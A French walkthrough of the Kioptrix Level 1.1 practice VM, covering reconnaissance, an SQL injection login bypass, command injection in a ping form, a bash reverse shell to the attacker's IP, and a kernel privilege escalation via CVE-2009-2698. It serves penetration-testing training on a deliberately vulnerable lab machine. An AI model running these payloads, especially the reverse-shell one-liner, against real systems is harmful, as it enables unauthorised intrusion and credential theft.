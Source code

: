 ```yaml
---
description: 'Walkthrough de la machine Kioptrix: Level 2'
---
```


# Kioptrix: Level 1.1 (#2)

## Détails de la machine

**Nom :** Kioptrix: Level 1.1 (#2)\
**Date de sortie :** 11 Février 2011\
**Lien de téléchargement :** [http://www.kioptrix.com/dlvm/Kioptrix\_Level\_2.rar](http://www.kioptrix.com/dlvm/Kioptrix\_Level\_2.rar)\
**Niveau :** Facile\
**Objectif(s) :** obtenir un accès "root"\
**Description :**\
****`This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.` \
``\
`This is the second release of #2. First release had a bug in it with the web application`\
`2012/Feb/09: Re-releases`\
`2011/Feb/11: Original Release`

## Reconnaissance

`netdicover` permet d'identifier l'adresse IP 192.168.1.15 comme étant notre victime :

![](../../../.gitbook/assets/b236a71d370dbb557718fdf87b3310de.png)

Suivi de `nmap` afin de scanner les services s'exécutant sur la machine :

![](../../../.gitbook/assets/3c98b193738de5640529c7488d16abb0.png)

Résultat : un service SSH, un serveur web (en version HTTP et HTTPS), un serveur d'impression CUPS ainsi qu'une base de données MySQL.

### Serveur HTTP

On commence directement par l'analyse du serveur web car je n'ai rien identifié de pertinent concernant la version 3.9 d'OpenSSH. Les résultats du `dirb` ainsi que du `nikto` ne donne rien de particulièrement intéressant non plus :

![](../../../.gitbook/assets/632f2601b754f23875ba841fe066b162.png)

La sortie est tronquée avec un -r mais rien d'intéressant même dans les sous-dossiers. Voici la sortie du `nikto` :

![](../../../.gitbook/assets/25d8f8c69663c0bd739f30efba3f3a0c.png)

On passe donc à l'analyse manuelle du site web. La page d'accueil est une mire d'authentification. Après quelques weaks credentials on tente de détecter une injection SQL avec un simple `' OR 1=1 --` :

![](../../../.gitbook/assets/138b88530829224c303ba8a6da81f596.png)

Cela fonctionne et nous permet de récupérer la prochaine page qui est une fonction permettant de pinger une machine du réseau (ça sent l'injection de commande) :

![](../../../.gitbook/assets/387198eb410ca24f85d8650701874168.png)

On tente la plus simple des injections avec le caractère `;` permettant de séparer des commandes :

![](../../../.gitbook/assets/c740bfb3515f48418d595e5af47b73cd.png)

On récupère l'id du compte apache qui exécute le serveur web. L'injection de commande est confirmée.

### Serveur d'impression

Cups est un serveur d'impression permettant aux utilisateurs de configurer les différents imprimantes. Pour cela il est également possible d'accéder au service par son interface web, dans notre cas un "403 - Forbidden" nous l'interdit :

![](../../../.gitbook/assets/88a52f4707669bd539b88b458ac4fc88.png)

La version utilisée de CUPS est la version 1.1, elle est vulnérable au moins à la CVE suivante (car je n'ai pas beaucoup cherché mais il semble que d'autres CVE sont disponibles pour cette version) :

![](../../../.gitbook/assets/d703a626c7f475515f7a4673dc41a387.png)

### MySQL

Nous ne connaissons pas la version du système de base de données afin de déterminer si le service est vulnérable à certaines CVE.

## Exploitation

### Injection de commande

Il est facile de récupérer un shell grâce à l'injection de commande. `netcat` ne semble pas disponible sur la machine cible, je suis donc passé par un `bash` grâce à la commande `;bash -i >& /dev/tcp/192.168.1.89/5555 0<&1`. Afin de l'utiliser dans la requête POST je l'ai préalablement encodée avec un encodage URL :&#x20;

![](../../../.gitbook/assets/6fe012f0214d723cfac732eb5a647144.png)

Côté machine d'attaque, un `netcat` en écoute sur le port 5555 :

![](../../../.gitbook/assets/4ba3d8e2bcdca66ab9ba25049194b65d.png)

## Élévation de privilèges

Un `uname -a` nous indique une version de kernel 2.6.9 sur une Fedora 4.5 qui est vulnérable à la CVE-2009-2698 :

![](../../../.gitbook/assets/b7815d98dd05fd179ce4526541faac60.png)

Voici la CVE :

![](../../../.gitbook/assets/af4235a012598d0cfece5e368071a386.png)

Une fois l'exploit ([https://www.exploit-db.com/exploits/9542](https://www.exploit-db.com/exploits/9542)) compilé et exécuté, nous sommes "root" :

![](../../../.gitbook/assets/b0bc23db78339563d8cf5087c24d1552.png)

## Conclusion

Il est également possible de récupérer les credentials de MySQL en affichant le fichier "index.php" du site web (soit une fois le shell récupéré ou alors via l'injection de commande) :

![](../../../.gitbook/assets/1dcd2f0b309cefd3548130d52d19cec1.png)

L'accès est refusé à partir d'une autre machine, mais une fois le shell récupéré grâce à l'injection de commande le contenu de la base est accessible :

![](../../../.gitbook/assets/d386607ad7c9b223571ecc7e9baec8b5.png)

Mais aucun des mots de passe ("hiroshima", ou "66lajGGbla") ne semble être le mot de passe du compte de "john" pour un accès en SSH. Pour information voici le contenu du fichier "/etc/passwd" :

![](../../../.gitbook/assets/ed4a366ae26ff7fd9393cb853207f4b6.png)

Je n'ai pas était plus loin dans la compromission des comptes existants, aucun mot de passe ne semble traîner dans un fichier quelconque.

Cette machine était très facile et donc parfaite pour commencer le pentest. Rien de compliqué, des failles web et un LPE à coup d'exploit d'un kernel vulnérable.


